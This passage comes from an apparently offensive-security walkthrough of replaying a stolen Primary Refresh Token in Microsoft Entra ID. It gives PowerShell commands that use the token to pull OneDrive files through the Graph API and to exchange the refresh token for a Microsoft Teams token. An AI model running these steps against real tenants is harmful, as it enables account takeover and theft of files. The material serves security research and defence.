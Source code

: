     ![Untitled](./media/replay-prt/PrtReplay7.png)
    
4. Now, you can use this token to exfiltrate information by [downloading content of a DriveItem with Microsoft Graph API](https://docs.microsoft.com/en-us/graph/api/driveitem-get-content?view=graph-rest-1.0&tabs=http), for example:
$ItemId = Read-Host
Invoke-MgGraphRequest -Method GET -Uri "[https://graph.microsoft.com/v1.0/me/drive/items/$($ItemId)?select=id,@microsoft.graph.downloadUrl](https://graph.microsoft.com/v1.0/me/drive/items/01NIVZIG5YQYXGXQ5MPRH3ZRVUNXFFCNRS?select=id,@microsoft.graph.downloadUrl)"

*Side Note: You can also use a [mass download script](https://gist.github.com/f-bader/e0c8dd8ccbcb48e437fb4f243de125fb) which has been written for this scenario from Fabian Bader.*
5. Another access token to a FOCI apps can be also requested. For example, Microsoft Teams:
    
```powershell
$TeamsToken = RefreshTo-MSTeamsToken -RefreshToken $RefreshToken -Domain $Tenant -ClientId $ClientId -UseCAE
```
    